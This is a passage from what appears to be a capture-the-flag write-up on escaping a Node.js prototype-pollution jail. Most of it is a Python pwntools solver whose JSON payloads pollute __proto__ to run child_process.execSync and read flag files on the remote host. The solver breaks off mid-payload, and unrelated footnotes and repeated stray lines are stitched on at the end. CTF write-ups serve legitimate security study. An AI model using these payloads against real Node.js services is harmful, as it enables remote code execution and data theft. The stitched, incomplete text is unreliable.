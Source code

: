 The for-loop does not use Iterator[^node-ppjail-01], so it is impossible to call `IteratorClose` and you cannot use the gadget used in deno-ppjail.

[^node-ppjail-01]: That's because the default value for `target` option of `tsc` is ES3. ES3 is a very old ECMAScript version.<br>ref. https://www.typescriptlang.org/tsconfig/#target

It means that you need to find a gadget other than `IteratorClose`. But not to worry, Node.js has some gadgets. In fact, I found three gadgets in the internals of Node.js.

For example:
```javascript
({}).__proto__[1] = { callback: () => console.log(1337) }
```

The callback will be called in the process for task queues.

See my solver below for details.

### Solver

```python
import os
import pwn
import json

io = pwn.remote(os.getenv("SECCON_HOST"), os.getenv("SECCON_PORT"))

command = "cat /flag-*.txt"


def solve1() -> str:
    # Solution 1:
    return json.dumps({
        "__proto__": {
            # ref. https://github.com/nodejs/node/blob/v20.6.0/lib/internal/fixed_queue.js#L81
            # ref. https://github.com/nodejs/node/blob/v20.6.0/lib/internal/process/task_queues.js#L77
            "1": {
                "callback": {
                    "__custom__": True,
                    "type": "Function",
                    "args": [
                        f"console.log(global.process.mainModule.require('child_process').execSync('{command}').toString())"
                    ],
                },
            },
        },
    })


def solve2() -> str:
    # Solution 2:
    return json.dumps({
        "__proto__": {
            # ref. https://github.com/nodejs/node/blob/v20.6.0/lib/internal/util/inspect.js#L1064
            "circular": {
                "get": {
                    "__custom__": True,
                    "type": "Function",
                    "args": [
                        f"console.log(global.process.mainModule.require('child_process').execSync('{command}').toString())"
                    ],
                },
            },
            # ref. https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Error/cause
            "cause": 1,
```

[^hidden-note-01]: https://arxiv.org/pdf/2106.05123.pdf
[^hidden-note-02]: Strictly speaking, there are more conditions for the shuffle.
  [CUSTOM_KEY]: true;
  [CUSTOM_KEY]: true;